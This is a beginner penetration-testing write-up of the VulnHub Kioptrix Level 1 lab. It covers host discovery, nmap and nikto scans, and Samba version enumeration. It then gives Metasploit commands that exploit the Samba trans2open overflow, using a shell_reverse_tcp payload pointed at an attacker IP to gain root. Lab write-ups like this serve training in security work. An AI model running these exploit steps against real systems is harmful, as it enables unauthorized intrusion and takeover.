










# Kioptrix Level 1

**Platform:** VulnHub
**Difficulty:** Beginner
**Objective:** Gain root access on the target machine.

---

# Lab Information

Kioptrix is a classic series of intentionally vulnerable virtual machines designed to help aspiring penetration testers practice enumeration, vulnerability analysis, exploitation, and privilege escalation techniques.

The goal of this challenge is to compromise the target system and obtain root access.

---

# Methodology

The assessment followed a standard penetration testing workflow:

1. Host Discovery
2. Port and Service Enumeration
3. Vulnerability Identification
4. Attack Surface Analysis
5. Exploitation
6. Root Access Verification
7. Documentation and Reporting

---

# Host Discovery

To identify the target machine on the local network, `netdiscover` was used.

```bash
sudo netdiscover
```

The scan revealed the following host:

```text
10.60.78.138
```
```text
 Currently scanning: 172.16.0.0/16   |   Screen View: Unique Hosts                                                                                         
                                                                                                                                                           
 37 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 2220                                                                                         
 _____________________________________________________________________________   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 ----------------------------------------------------------------------------- 10.131.34.124   66:4e:fe:ba:34:a8     20    1200  Unknown vendor                                                                                          
 10.60.78.242    ac:f2:3c:26:de:6d     15     900  CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD.                                                            
 10.60.78.216   86:81:3b:96:7a:86      1      60  Unknown vendor                                                                                          
 10.60.78.138   00:0c:29:69:b2:3a      1      60  VMware, Inc.                                                                                            

```

---

# Network Scanning

After identifying the target, an Nmap scan was performed to enumerate open ports, running services, and software versions.

```bash
nmap -sC -sV 10.60.78.138
```



The `-sC` flag executes default NSE scripts while `-sV` performs service version detection.

## Findings

| Port  | Service | Version        |
| ----- | ------- | -------------- |
| 22    | SSH     | OpenSSH 2.9p2  |
| 80    | HTTP    | Apache 1.3.20  |
| 111   | RPCBind | Version 2      |
| 139   | SMB     | Samba          |
| 443   | HTTPS   | Apache 1.3.20  |
| 32768 | RPC     | Status Service |

Several services appeared to be running legacy software versions.

---

# Enumeration

Following service discovery, each exposed service was examined to identify potential attack vectors.

---

## HTTP Enumeration

The web application was accessed through a browser.

```text
http://10.60.78.138
```



The server displayed the default Apache test page, confirming that the host was running Apache.

The page also disclosed useful information regarding the underlying operating system and web server software.


### Nikto Scan

Because the web server appeared outdated, a Nikto scan was performed to identify misconfigurations and known vulnerabilities.

```bash
nikto -h http://10.60.78.138
```

Important findings included:

```text
Apache/1.3.20 appears to be outdated
OpenSSL/0.9.6b appears to be outdated
mod_ssl/2.8.4 appears to be outdated
HTTP TRACE method enabled
mod_ssl vulnerable to remote buffer overflow
```

> Note: Nikto is considered a noisy scanner and may be detected by IDS, IPS, or WAF solutions in production environments.

Although several web-based vulnerabilities were identified, additional enumeration was performed before selecting an attack path.

---

## SMB Enumeration

Since Samba was detected on port 139, the next step was to determine the exact version.

Metasploit's SMB version scanner was used.

```bash
sudo msfconsole
```
```bash
search smb
```

```bash

use auxiliary/scanner/smb/smb_version
```

```bash
set RHOSTS 10.60.78.138
run
```
```text
msf auxiliary(scanner/smb/smb_version) > run

[*] 10.60.78.138:139 - SMB Detected (versions:) (preferred dialect:) (signatures: optional)
[*] 10.60.78.138:139 - Host could not be identified: Unix (Samba 2.2.1a)
[*] 10.60.78.138    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
msf auxiliary (scanner/smb/smb_version) > I
```

The scanner identified:

```text
Unix (Samba 2.2.1a)
```

This version is known to contain several publicly documented vulnerabilities.

---

# Attack Surface Prioritization

At this stage, several potential attack vectors had been identified:

* Apache 1.3.20
* OpenSSL 0.9.6b
* mod_ssl 2.8.4
* Samba 2.2.1a

Although the web server exposed multiple vulnerable components, Samba was selected as the primary attack vector because a reliable public exploit existed and provided a direct path to remote code execution.

---

# Vulnerability Analysis

Research into Samba 2.2.1a revealed the **trans2open buffer overflow vulnerability**.



## Understanding the Vulnerability

The trans2open vulnerability affects Samba versions 2.2.0 through 2.2.8.

A specially crafted SMB request can trigger a buffer overflow condition, allowing arbitrary code execution on the target system.

Because the target was running Samba 2.2.1a, it fell within the vulnerable version range.

---

# Exploitation

A search within Metasploit confirmed that an exploit module was available.

```bash
search trans2open
```


Several exploit modules were returned.

The Linux x86 version was selected.

```bash
use exploit/linux/samba/trans2open
```

```bash
set RHOSTS 10.60.78.138
set LHOST <ATTACKER_IP>
```



---

## Initial Exploitation Attempt

The exploit was executed using the default payload.

```bash
exploit
```



The initial exploitation attempt failed.

The default Metasploit payload was:

```text
linux/x86/meterpreter/reverse_tcp
```

This is a staged payload, meaning a small payload executes first and then downloads additional components from the attacker's machine.

In this environment, the staged payload failed to establish a stable session.

---

## Switching to a Non-Staged Payload

Available payloads were reviewed.

```bash
set payload linux/x86/
```

A non-staged payload was selected.

```bash
set payload linux/x86/shell_reverse_tcp
```

Unlike staged payloads, non-staged payloads deliver the complete shell in a single transmission, making them more reliable in certain environments.

---

# Root Access Verification

The exploit was executed again using the non-staged payload.

```bash
exploit
```

A shell was successfully obtained.

Verification commands:

```bash
whoami
hostname
```



Output:

```text
root
kioptrix.level1
```

Root access was successfully achieved.

---

# Lessons Learned

* Thorough enumeration often reveals multiple attack paths.
* Service version detection can directly lead to publicly known exploits.
* Public exploit databases help validate attack feasibility.
* Staged payloads may fail and alternative payloads should be considered.
* Proper documentation improves repeatability and communication of findings.

---

## References

- [Kioptrix Level 1 (VulnHub)](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)
- [Rapid7 Samba trans2open Module](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)
- [Metasploit Documentation](https://docs.metasploit.com/)
- [Nmap Documentation](https://nmap.org/docs.html)
- [Nikto GitHub Repository](https://github.com/sullo/nikto)
